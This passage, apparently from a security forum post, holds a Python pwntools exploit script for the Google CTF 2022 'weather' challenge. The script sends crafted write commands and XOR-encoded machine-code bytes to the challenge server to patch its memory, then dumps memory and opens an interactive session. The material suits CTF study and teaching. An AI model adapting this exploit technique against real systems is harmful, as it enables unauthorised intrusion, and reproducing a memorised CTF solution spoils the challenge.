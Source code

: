 ```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

#context.log_level = 'debug'
context.arch = 'amd64'

HOST = 'weather.2022.ctfcompetition.com'
PORT = 1337

tube.s = tube.send
tube.sl = tube.sendline
tube.sa = tube.sendafter
tube.sla = tube.sendlineafter
tube.r = tube.recv
tube.ru = tube.recvuntil
tube.rl = tube.recvline
tube.ra = tube.recvall
tube.rr = tube.recvregex
tube.irt = tube.interactive

p = remote(HOST, PORT)

def pwn():
    info("pwnit!")

    p.sla('? ', 'w 101153 5 3 165 90 165 90')
    p.sla('? ', 'r 101153 64')

    pause()
    p.sla('? ', 'w 101153 65 3 165 90 165 90 '+'0 '*0x39 + '255 17 181')
    #'w 101153 65 3 165 90 165 90 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 255 17 181'
    #p.sla('? ', 'r 101153 64')

    pause()
    #l = [0x90, 0x8, 0xed, 0x75, 0xf0, 0x80, 0x2, 0x1,0x14]
    #l = [0x75,0xee,15, 0xe5,0xef, 0x60,0x09, 0xe5,0xf3, 0x60,0xfc, 0x85,0xef,0xf2, 0x80,0xf3, 0x90, 0, 0, 0x2,0x1,0x14]
    l = [0x75, 0xEE, 0x00, 0xE5, 0xEF, 0x60, 0x0F, 0xE5, 0xF3, 0x60, 0xFC, 0x85, 0xEF, 0xF2, 0xE5, 0xEE, 0xFF, 0x04, 0xF5, 0xEE, 0x80, 0xED, 0x90, 0x00, 0x00, 0x02, 0x1, 0x14]
    pl = ''
    for i in range(len(l)):
        pl += ' '
        pl += str(l[i] ^ 255)

    p.sla('? ', 'w 101153 '+str(len(l)+8)+' 40 165 90 165 90 0 0 255'+pl)
    p.sla('? ', 'r 101168 64')

    p.irt()

if __name__ == "__main__":
    pwn()
```

![title](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d962b8c47c399572f92e4f9dcdf88dd437a03f16.png)